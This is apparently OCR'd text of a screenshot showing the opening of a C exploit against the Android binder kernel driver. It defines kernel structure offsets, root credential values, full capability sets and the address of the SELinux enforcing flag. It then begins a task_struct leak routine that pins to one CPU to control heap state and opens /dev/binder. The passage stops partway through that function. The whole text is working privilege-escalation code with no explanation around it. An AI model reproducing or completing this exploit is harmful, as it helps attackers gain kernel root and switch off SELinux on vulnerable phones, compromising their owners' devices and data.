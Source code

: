 ```c
#define BINDER_THREAD_SZ 0x190
#define WAITQUEUE_OFFSET 0xA0
#define IOVEC_WQ_INDEX (0xa0 / 16)
#define IOVEC_COUNT (BINDER_THREAD_SZ/16)
#define BINDER_THREAD_EXIT 0x40046208ul
#define TASK_STRUCT_OFFSET_IN_LEAKED_DATA 0xE8
#define OFFSET_TASK_STRUCT_ADDR_LIMIT 0xA18
#define GLOBAL_ROOT_UID     (uint32_t)0
#define GLOBAL_ROOT_GID     (uint32_t)0
#define SECUREBITS_DEFAULT  (uint32_t)0x00000000
#define CAP_EMPTY_SET       (uint64_t)0
#define CAP_FULL_SET        (uint64_t)0x3FFFFFFFFF
#define SYMBOL_OFFSET_init_nsproxy      (ptrdiff_t)0x1233ac0
#define SYMBOL_OFFSET_selinux_enforcing (ptrdiff_t)0x14acfe8

int m_binder_fd = 0;
int m_epoll_fd = 0;
void *m_4gb_aligned_page;
struct epoll_event m_epoll_event = {.events = EPOLLIN};
void *m_pidAddress;
struct cred *m_cred;
void *m_credAddress;
void *m_nsproxyAddress;
int m_kernel_rw_pipe_fd[2] = {0};
struct task_struct * m_task_struct;

void leak_task_struct(void){


      int ret;
    cpu_set_t cpuSet;

    CPU_ZERO(&cpuSet);
    CPU_SET(0, &cpuSet);

    //
    // It's a good thing to bind the CPU to a specific core,
    // so that we do not get scheduled to different core and
    // mess up the SLUB state
    //

    printf("[+] Binding to 0th core\n");

    ret = sched_setaffinity(0, sizeof(cpu_set_t), &cpuSet);

    if (ret < 0) {
        printf("[-] bindCPU failed: 0x%x\n", errno);
    }



    int pipe_fd[2] = {0};
    ssize_t nBytesRead = 0;
    static char dataBuffer[PAGE_SIZE] = {0};
    struct iovec iovecStack[IOVEC_COUNT]= {nullptr};
   
    printf("[+] start opening /dev/binder");
    m_binder_fd = open("/dev/binder",O_RDONLY);
    if (m_binder_fd < 0) {
            printf("\t[-] Unable to get binder fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_binder_fd: 0x%x\n", m_binder_fd);
```